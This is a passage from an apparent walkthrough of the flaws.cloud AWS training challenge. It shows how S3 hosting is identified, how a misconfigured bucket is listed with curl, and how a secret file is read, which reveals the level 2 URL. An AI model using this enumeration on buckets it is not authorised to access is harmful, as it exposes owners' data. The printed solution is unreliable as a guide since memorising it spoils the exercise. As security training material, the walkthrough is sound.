 ```
<li>HostId: fH3RjwiH4lpoZAbZNQt9QmeXovNNHuoivbx7k9wbv150UgoSs51/EZ/8InzVHQT2xHM+swgEfA4=</li>
</ul>
<hr/>
</body>
</html>
* Connection #0 to host flaws.cloud left intact
```
and observe the response from the web application, such as the x-amz- headers, as well as the body content indicating we are indeed interacting with the S3 service.

Once we've determined that some content is hosted on S3, we can turn to examine the S3 bucket the content belongs to. In general S3 buckets can be directly accessed (https://docs.aws.amazon.com/AmazonS3/latest/dev/UsingBucket.html) via HTTP(S). The URL pattern is `http://<bucketname>.s3.amazonaws.com`. Due to misconfiguration, visiting this bucket gives us a directory structure:
```
root@kali:~ # curl -s flaws.cloud.s3.amazonaws.com | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>        
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Name>flaws.cloud</Name>
  <Prefix/>
  <Marker/>          
  <MaxKeys>1000</MaxKeys>
  <IsTruncated>false</IsTruncated>
  <Contents> 
    <Key>hint1.html</Key>
    <LastModified>2017-03-14T03:00:38.000Z</LastModified>
    <ETag>"f32e6fbab70a118cf4e2dc03fd71c59d"</ETag>
    <Size>2575</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>hint2.html</Key>
    <LastModified>2017-03-03T04:05:17.000Z</LastModified>
    <ETag>"565f14ec1dce259789eb919ead471ab9"</ETag>
    <Size>1707</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>hint3.html</Key>
    <LastModified>2017-03-03T04:05:11.000Z</LastModified>
    <ETag>"ffe5dc34663f83aedaffa512bec04989"</ETag>
    <Size>1101</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>index.html</Key>
    <LastModified>2020-05-22T18:16:45.000Z</LastModified>
...
```
Browsing to the secret-*.html file shows us
```
root@kali:~ # curl -s flaws.cloud.s3.amazonaws.com/secret-dd02c7c.html
...
Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>
```

